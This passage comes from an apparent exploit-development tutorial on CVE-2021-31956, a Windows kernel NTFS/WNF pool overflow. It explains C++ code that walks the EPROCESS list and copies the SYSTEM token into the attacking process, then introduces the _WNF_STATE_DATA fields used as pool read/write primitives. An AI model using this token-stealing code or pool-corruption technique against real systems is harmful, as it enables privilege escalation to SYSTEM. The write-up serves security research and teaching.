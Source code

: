 Here, we see that the `typedef` is not overwriting the `_EPROCESS` function prototype. Rather, it is simply creating a skeleton to be assigned as `EPROCESS` and by `PEPROCESS`. Now that we have defined all variable assignments within the `steal_token` function, we will now proceed onto the main `for` loop:  

```cpp
for (; cur != own_eproc; next = (PLIST_ENTRY)read64(next), cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks))
    if ((UINT64)read64(&(cur->UniqueProcessId)) == (UINT64)0x4) {
        write64(&(own_eproc->Token), read64(&(cur->Token)));
        status = STATUS_SUCCESS;
        puts("[+] Stole system token!");
        goto out;
    }
```

Since the `ActiveProcessLinks` structure is a circular doubly-linked list, the `for` loop will terminate if the current EPROCESS is equal to our own EPROCESS. So long as this is not the case, the `next` variable is set to point to the `cur` EPROCESS' `ActiveProcessLinks` address. Then, the `cur` EPROCESS is updated to the EPROCESS pointed to by the `next` variable. This in-turn allows the `for` loop to execute the `if` condition on every EPROCESS in memory. 

The `UniqueProcessId` for the SYSTEM EPROCESS is equal to `0x4`. Therefore, the `if` condition checks if the `cur` EPROCESS has a `UniqueProcessId` of `0x4`. If so, the `Token` member of the `own_eproc` EPROCESS, which is our own EPROCESS, will be overwritten with the `Token` member of the `cur` EPROCESS. The `status` value will then set to `STATUS_SUCCESS` and the `for` loop will break via the `goto out` statement.

If there is no EPROCESS that has a `UniqueProcessId` of `0x4`, a `log_warn` message will be issued and the `STATUS_UNSUCCESSFUL` status will be returned. However, if the `goto out` statement is executed, the program will skip the `log_warn` line and proceed to the `out:` section of code and return the `STATUS_SUCCESS` value:

```cpp
    log_warn("Unable to find system process token");

out:
    return status;
```

### The write_pool Function

To start things off, let's go back to Alex Plaskett's [blog post](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and review the work already done in reversing the functionality used to write controlled pool allocations. First off, as we recall, the `AllocatedSize` and `DataSize` members of the `_WNF_STATE_DATA` structure are excellent read/write primitives for any pool allocations made after the corrupted `_WNF_STATE_DATA` structure:

```cpp
struct _WNF_STATE_DATA
{
    struct _WNF_NODE_HEADER Header;                                         //0x0
    ULONG AllocatedSize;                                                    //0x4
    ULONG DataSize;                                                         //0x8
    ULONG ChangeStamp;                                                      //0xc
}; 
```
